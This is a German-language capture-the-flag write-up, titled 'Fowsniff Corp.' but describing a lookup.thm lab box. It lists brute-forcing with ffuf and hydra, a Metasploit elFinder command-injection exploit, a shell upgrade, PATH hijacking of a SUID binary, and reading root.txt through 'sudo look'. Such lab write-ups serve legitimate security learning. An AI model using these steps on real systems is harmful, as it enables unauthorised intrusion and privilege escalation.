 # CTF Writeup: Fowsniff Corp.

---

1. Step: nmap scan gemacht  
2. Step: ip/domain in meinen /etc/hosts getan um DNS zu umgehen  
3. Step: mit burpsuite proxy request und response abgefangen um daten zu gainen  
4. step: fuff gerunned und password herausgefunden "password123" -> username fehlt noch  
5. step: fuff nochmal gerunned mit "seclist" 10 million names --> username = jose  
6. step: wir wurden weitergeleitet an eine neue subdomain namens "files.lookup.thm" und haben diese in /etc/hosts geadded um den DNS zu umgehen  
7. step: auf der sub-domain ist mir klar geworden das die seite ihre daten auf einem webserver verwaltet mit "elfinder"
dieser ist sehr outdated und ich möchte diesen auf exploits überprüfen mit metasploitable.
-> metasploitable in cmd aufgerufen "msf6 > search elfinder"  
8. step: exploit 4 ausgewählt "Command Injection" -> PHP Connector exiftran Command Injection  
9. step: rhost -> target (files.lookup.thm) ausgewählt mit dem wir unsere shell remote connecten werden  
10. step: lhost -> intruder (wir) -> ip ausgewählt  
11. step: in meterpreter > shell initiiert  
12. step: python3 -c 'import pty; pty.spawn("/bin/bash")' um eine interaktive shell zu erstellen  
13. step: "find / -type f -name user.txt 2>/dev/null" sucht nach user.txt im gesamten Dateisystem und blendet
dabei Fehlermeldung aus.  
14. step: /home/think/user.txt gefunden aber permission denied als ich sie displayen/ausführen wollte.  
15. step: "find / -perm /4000 2>/dev/null" suche nach Dateien die perms haben und blende Fehlermeldung aus.  
16. step: alle Verzeichnisse ausgeführt -> /usr/sbin/pwm ist interessant und daraufhin Berechtigungen überprüft
ls -la /usr/sbin/pwm  
17. step: temporäres Verzeichnis zum PATH geadded "export PATH=/tmp:$PATH"  
18. step: bash Skript Ausführung in /tmp/id hinzugefügt. "echo '#!/bin/bash' > /tmp/id  
19. step: ein paar uids und groups zu dem user "think" hinzufügen im Skript /tmp/id -> "echo 'echo "uid=33(think) gid=33(think) groups=(think)"' >> /tmp/id   
20. step: executions rights für /tmp/id erstellt mit "chmod +x /tmp/id" und jetzt kann man den pfad /usr/sbin/pwm aufrufen  
21.step: wordlist erstellt pass.txt und die daten von /usr/sbin/pwm da eingefügt für hydra running  
22. step: sehr viele potentielle pw's bekommen und hydra gerunned mit command "hydra -l think -P pass.txt -t 4 - VV lookup.th ssh" und dadurch den -> hostname, username & pw ermittelt.  
23. step: in die ssh eingeloggt mit "ssh think@lookup.thm und mit pw eingeloggt.  
24. step: ls gemacht und "user.txt" gefunden -> user flag gefunden  
25. step: sudo -l gemacht um zu verstehen welche commands möglich sind  
26. step: LFILE=/root/root.txt variabelzuweisung gemacht  
27. step: "sudo look '' "$LFILE" dieser command sucht im Endeffekt nach allen Zeile die, die LFILE (root.txt) enthält. -> root flag ermittelt.  

---

## Key Learnings

### - Learned how to execute DNS Bypasses
### - First Contact with Burp Suite and Packet Manipulation & Packet Analysis
### - First Contact with fuzz & passwort brute forcing
### - SecList installiert
### - Learned more about Metasploitable
### - Learned more about reverse shells and generated reverse shell bash script
### - Learned a lot about privilege escalations & ssh's
